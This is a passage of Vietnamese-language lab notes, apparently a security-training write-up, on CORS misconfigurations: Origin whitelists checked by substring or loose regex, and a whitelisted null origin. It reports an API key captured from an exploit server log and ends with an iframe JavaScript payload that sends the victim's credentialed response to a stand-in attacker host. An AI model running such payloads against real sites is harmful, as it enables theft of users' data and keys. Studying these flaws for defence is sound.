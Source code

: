   Sau khi gửi cho victim, check access log của exploit server và lụm lúa:

  <img width="1914" height="943" alt="image" src="https://github.com/user-attachments/assets/c6fa2361-e215-4ecb-8538-3c5a5cb69a2d" />

  Thu được API key của admin là: _RHAwq8Jpg0GcD3JGK0eoA8ahPFRS3MPf_

--- 

### Errors parsing Origin headers

- Thông thường, các server sẽ có một whitelist để check Origin từ client gửi tới và phản hồi với header _Access-Control-Allow-Origin_ nếu khớp.

- Tuy nhiên, một số dev viết check whitelist sai cách, như:
  
  - So khớp bằng chuỗi con (endsWith, startsWith) thay vì so chính xác domain.
  
  - Dùng regex lỗi không ràng buộc đầy đủ.
  
  - Cho phép mọi subdomain nhưng không kiểm soát.

### Whitelisted null origin value

- Trong một số trường hợp đặc biêt, trình duyệt không thể xác định origin thật, nên nó gán Origin: null.

- Vì lúc dev hay test local, một số team cho phép request có Origin: null để debug. Ví dụ:

  ```http
  GET /sensitive-victim-data HTTP/1.1
  Host: vulnerable-website.com
  Origin: null
  ```

  Server trả về:

  ```http
  HTTP/1.1 200 OK
  Access-Control-Allow-Origin: null
  Access-Control-Allow-Credentials: true
  ```

  &rarr; Tức là bất kỳ request nào có Origin = null đều được phép đọc data, và còn cho gửi kèm cookie (withCredentials).

- Do đó, ta có thể tạo một trang độc hại dùng ```<iframe sandbox>``` (vì khi dùng sandboxed iframe không có quyền allow-same-origin) để ép trình duyệt gửi request với _Origin: null_:

  ```javascript
  <iframe sandbox="allow-scripts allow-forms" 
        src="data:text/html,
  <script>
    var req = new XMLHttpRequest();
    req.onload = function() {
      location='https://malicious-website.com/log?key='+this.responseText;
    };
    req.open('GET','https://vulnerable-website.com/sensitive-victim-data',true);
    req.withCredentials = true;  // gửi cookie nạn nhân kèm theo
    req.send();
  </script>">
  </iframe>
  ```
